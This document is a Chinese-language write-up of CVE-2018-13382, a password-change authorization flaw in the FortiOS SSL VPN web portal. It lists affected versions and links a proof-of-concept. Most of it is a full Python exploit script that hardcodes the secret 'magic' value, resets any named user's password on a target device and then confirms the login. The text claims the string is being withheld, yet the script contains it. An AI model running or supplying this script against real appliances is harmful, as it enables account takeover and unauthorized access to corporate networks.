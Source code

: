 # CVE-2018-13382 Fortinet FortiOS magic后门

### 一、漏洞简介

Fortinet FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0版本至6.0.4版本 、5.6.0版本至5.6.8版本和5.4.1版本至5.4.10版本中的SSL VPN Web门户存在授权问题漏洞。该漏洞源于网络系统或产品中缺少身份验证措施或身份验证强度不足。

### 二、漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.9 Fortinet Fortios 5.4.11

### 三、复现过程

在登录页面中，我们找到了一个的特殊参数magic。一旦这个参数为某个特殊字符串，我们就可以修改任何用户的密码。

![](images/15890268992253.png)


根据我们的调查，仍有大量的Fortigate SSL VPN缺少补丁。因此，考虑到其严重性，我们不会透露magic字符串。但是，CodeWhite的研究人员已经复现了这个漏洞。毫无疑问，其他攻击者很快就会利用此漏洞！请尽快更新您的Fortigate！

> Critical vulns in #FortiOS reversed & exploited by our colleagues @niph_ and @ramoliks - patch your #FortiOS asap and see the #bh2019 talk of @orange_8361 and @mehqq_ for details (tnx guys for the teaser that got us started) pic.twitter.com/TLLEbXKnJ4

> — Code White GmbH (@codewhitesec) 2019年7月2日


**poc**

https://github.com/ianxtianxt/CVE-2018-13382


```python
$ python CVE-2018-13382.py  -h
Usage: CVE-2018-13382.py [options]

Options:
  -h, --help   show this help message and exit
  -i IP        e.g. 127.0.0.1:10443
  -u USERNAME  
  -p PASSWORD  

```


```python
import requests, binascii, optparse, sys
from urlparse import urlparse
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
requests.packages.urllib3.disable_warnings()
import multiprocessing
import colored
from user_agent import generate_user_agent, generate_navigator
bold=True

userAgent=generate_user_agent()
username=""
newpassword=""
ip=""

def setColor(message, bold=False, color=None, onColor=None):
    from termcolor import colored, cprint
    retVal = colored(message, color=color, on_color=onColor, attrs=("bold",))
    return retVal

def checkIP(ip):
    try:
        url = "https://"+ip+"/remote/login?lang=en"
        headers = {"User-Agent": userAgent, "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
        r=requests.get(url, headers=headers, verify=False)
        if r.status_code==200 and "<title>Please Login</title>" in r.text:
            return True
        else:
            return False
    except requests.exceptions.ConnectionError as e:
        print e
        return False

def changePassword(ip,username,newpassword):
    url = "https://"+ip+"/remote/logincheck"
    headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
    data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword, "magic": "4tinet2095866", "reqid": "0", "credential2": newpassword}
    r=requests.post(url, headers=headers, data=data, verify=False)
    if r.status_code==200 and 'redir=/remote/hostcheck_install' in r.text:
        return True
    else:
        return False

def testLogin(ip,username,newpassword):
    url = "https://"+ip+"/remote/logincheck"
    headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
    data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword}
    r=requests.post(url, headers=headers, data=data, verify=False)
    if r.status_code==200 and"redir=/remote/hostcheck_install" in r.text:
            return True
    else:
        return False

parser = optparse.OptionParser()
parser.add_option('-i', action="store", dest="ip", help="e.g. 127.0.0.1:10443")
parser.add_option('-u', action="store", dest="username")
parser.add_option('-p', action="store", dest="password")
options, remainder = parser.parse_args()
if not options.username or not options.password or not options.ip:
    print "[!] Please provide the ip (-i), username (-u) and password (-p)"
    sys.exit()
if options.username:
    username=options.username
if options.password:
    newpassword=options.password
if options.ip:
    ip=options.ip
tmpStatus=checkIP(ip)
if tmpStatus==True:
    print "[*] Checking if target is a Fortigate device "+setColor(" [OK]", bold, color="green")
    if changePassword(ip,username,newpassword)==True:
        print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [OK]", bold, color="green")   
        if testLogin(ip,username,newpassword)==True:
            print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [OK]", bold, color="green")
            print "************** Enjoy your new credentials **************\n"
        else:
            print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [NOK]", bold, color="red")
    else:
        print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [NOK]", bold, color="red")            
else:
    print "[*] Checking if target is a Fortigate device "+setColor(" [NOK]", bold, color="red")
```